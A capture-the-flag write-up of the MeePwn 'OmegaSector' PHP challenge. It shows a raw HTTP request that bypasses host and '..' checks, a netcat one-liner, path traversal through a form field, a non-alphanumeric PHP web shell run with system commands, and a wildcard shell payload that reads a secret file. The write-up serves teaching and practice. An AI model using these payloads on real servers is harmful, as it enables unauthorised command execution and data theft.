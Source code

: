 # OmegaSector &ndash; write-up by @terjanq

## Task Description
>Wtf !? I just want to go to OmegaSector but there is weird authentication here, please help me  
>http://138.68.228.12/

## Part1
The very first part of the challenge is about getting the source code of the [index.php] file. In the source of the website, we could find the URL `http://138.68.228.12/?is_debug=1` which exactly does that. 

The next step is to bypass the following countermeasures to gain the full control of the `$whoareyou` variable.

```php
$remote=$_SERVER['REQUEST_URI']; 

if(strpos(urldecode($remote),'..')) 
    mapl_die(); 

if(!parse_url($remote, PHP_URL_HOST))
    $remote='http://'.$_SERVER['REMOTE_ADDR'].$_SERVER['REQUEST_URI']; 

$whoareyou=parse_url($remote, PHP_URL_HOST); 
```

If we make any request by the web browser the `$_SERVER['REQUEST_URI']` variable will start with `/?` or `/index.php?` or `/index.php/` and so on. But there is always `slash` character at the beginning. So it's a tough task to get the custom hostname in here.  
At this stage, we can conclude that it is something with `raw HTTP requests`.  

Imagine the request below:
```
GET ..@alien.somewhere.meepwn.team/..//index.php?alien=%40!%23%24%40!%40%40 HTTP/1.1
Host: 138.68.228.12
Connection: close

```

In this payload I managed to cheat the `apache2`, the `parse_url` and the `strpos(urldecode($remote),'..')` at one shoot!

`Apache2` will move into a not existing directory `..@alien.somewhere.meepwn.team` then will go one level down `../` back to the `root` folder. It is important that there are two `slashes` otherwise it won't work. I suppose it is because it just cleverly removes `..@alien.somewhere.meepwn.team/../` from the file path. 

My first try after I discovered that we could travel over directories like that was to create `..://alien.somewhere.meepwn.team/../..//index.php` request so the `parse_url` evaluates to:

```
Array
(
    [scheme] => ..
    [host] => alien.somewhere.meepwn.team
    [path] => /../..//index.php
)
```

but injecting the `:` in the `directory name` caused the `apache2` to crash. Perhaps it is due to another solution which I will link to at the end of the write-up.

The `$_SERVER['REQUEST_URI']` variable has obviously `..@alien.somewhere.meepwn.team/..//index.php?alien=%40!%23%24%40!%40%40` value. 

Since `strpos(urldecode($remote),'..')` is `0` it evaluetes to `False` and thus the `mapl` won't `die`.

Also `parse_url($remote, PHP_URL_HOST)` won't return the hostname and the `http://127.0.0.1` will be prepended into `$remote` so the whole variable looks like `http://127.0.1..@alien.somewhere.meepwn.team/..//index.php?alien=%40!%23%24%40!%40%40`. 

Now `parse_url` returns

```
Array
(
    [scheme] => http
    [host] => alien.somewhere.meepwn.team
    [user] => 127.0.0.1..
    [path] => /..//index.php
    [query] => alien=%40!%23%24%40!%40%40
)
```

Bingo! We have a complete control over the `$whoareyou` variable.

We pass a few *ifs* 
```
if($whoareyou==="alien.somewhere.meepwn.team")
    ⋮
    if($_GET['alien']==='@!#$@!@@')
        ⋮
        $_SESSION['auth']=hash('sha256', 'alien'.$salt); 
            exit(header( "Location: alien_sector.php" )); 

```

and get redirected to another stage. 

I used this `bash script` in order to get the `PHPSESSID` with `auth` set
```bash
echo -ne 'GET ..@alien.somewhere.meepwn.team/..//index.php?alien=%40!%23%24%40!%40%40 HTTP/1.1\r\nHost: 138.68.228.12\r\nConnection: close\r\n\r\n' | nc 138.68.228.12 80
```
There are also similar *ifs* for `omega_sector.php` but actualy it had no any use in this challange. 

## Part2
After having the right `PHPSESSID` in the cookies we get the following form on the `alien_sector.php`:
```xml
<form action="alien_sector.php" method="POST">
<textarea class="shadow" id="main" name="message"></textarea>
<input type='text' name='type' value='alien' hidden />
<button type="submit" id="button"><div class="alien_language">Save</div></button>
</form>
```
If we send a message with `non alphanumeric characters` we see `Saved in alien_message/fc11ce87435398abd6a28dd622639988.alien`. In opposition on the `omega_sector` where we only can use `alphanumeric characters`. We can abuse the `type` attribute and we can send the request `type=/../super_secret_shell.php`.  
The serious restriction was that messages could be at least `40 characters` long.

At first, I thought that it is something like `race condition` that two scripts write into one file at the same time resulting in mixed content but it didn't work.

Then, inspired by some ideas found on the internet I have created the `reverse shell script` using only `non-alpha chars`: 
```php
<?=$_='$<>/'^'{{{{';${$_}[_](${$_}[__]);

// $_= '$<>/' ^ '{{{{' ----> $_ = '_GET'
// ${_GET}[_](${_GET})[__];
// final <?=$_GET[_]($_GET[__])
```

And then after visiting the URL `http://138.68.228.12/alien_message/super_secret_shell.php?_=system&__=rgrep MeePwn /var/www/` we see the flag: **MeePwnCTF{__133-221-333-123-111___}**


## Alternative solution
This is the solution posted by `P4Team`.

```
GET http://human.ludibrium.meepwn.team?human=Yes HTTP/1.0
Host: human.ludibrium.meepwn.team
```

This tricky payload takes an advantage of `default` in `virtual hosts` set to `/var/www/html` so any non-existent domain will point there. Also, it uses the alternative way of making the request using `GET FULL_URL` syntax. 

```php
<?=`/???/??? ../??????.??? > ===`
```

Even more tricky here using only 33 characters... It calls for shell via `` `...` `` syntax and then uses `shell wildcards` so `/???/???` will match `/bin/cat` and `../??????.???` matches `../secret.php`. Finally, it writes the result to `===` file. Amazing.




[index.php]:<./index.php>
